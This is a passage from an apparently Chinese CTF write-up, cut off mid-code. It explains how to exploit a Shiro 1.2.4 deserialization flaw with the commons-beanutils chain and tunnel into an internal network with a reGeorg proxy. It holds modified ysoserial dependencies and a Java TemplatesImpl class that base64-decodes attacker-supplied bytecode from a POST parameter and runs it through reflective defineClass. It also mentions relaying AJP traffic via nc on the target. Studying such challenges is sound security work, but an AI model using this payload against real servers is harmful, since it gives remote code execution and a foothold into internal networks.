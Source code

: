 ## Shiro反序列化上载reGeorg代理

题目附件直接给了完整的Docker环境，外部是Nginx反代出来的Spring Boot应用，反编译jar包由pom文件很容易发现存在Shiro 1.2.4 反序列化漏洞和commons-beanutils链，但题目环境不出网，flag在内网机器中，所以需要先建立代理，我觉得最好的方式就是动态注册filter或者servlet，并将reGeorg的代码嵌入其中，但如果将POC都写在header中，肯定会超过中间件header长度限制，当然在某些版本也有办法修改这个长度限制，参考[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247484799&idx=1&sn=42e7807d6ea0d8917b45e8aa2e4dba44)，以下采用了动态加载类的方式将代理的主要逻辑放入了POST包体中

除了建立socks5代理对内网应用进行攻击外，在靶机上留有nc，可以本地抓包Ajp协议，再通过nc发送

### 改造ysoserial

为了在ysoserial中正常使用下文中提到的类，需要先在pom.xml中加入如下依赖

```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
    <version>8.5.50</version>
</dependency>

<dependency>
	<groupId>org.springframework</groupId>
	<artifactId>spring-web</artifactId>
	<version>2.5</version>
</dependency>
```



要让反序列化时运行指定的Java代码，需要借助TemplatesImpl，在ysoserial中新建一个类并继承AbstractTranslet，这里有不理解的可以参考[有关TemplatesImpl的反序列化漏洞链](https://l3yx.github.io/2020/02/22/JDK7u21%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadgets/#TemplatesImpl)

静态代码块中获取了Spring Boot上下文里的request，response和session，然后获取classData参数并通过反射调用defineClass动态加载此类，实例化后调用其中的equals方法传入request，response和session三个对象

```java
package ysoserial;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class MyClassLoader extends AbstractTranslet {
    static{
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            java.lang.reflect.Field r=request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            org.apache.catalina.connector.Response response =((org.apache.catalina.connector.Request) r.get(request)).getResponse();
            javax.servlet.http.HttpSession session = request.getSession();

            String classData=request.getParameter("classData");
            System.out.println(classData);

            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
```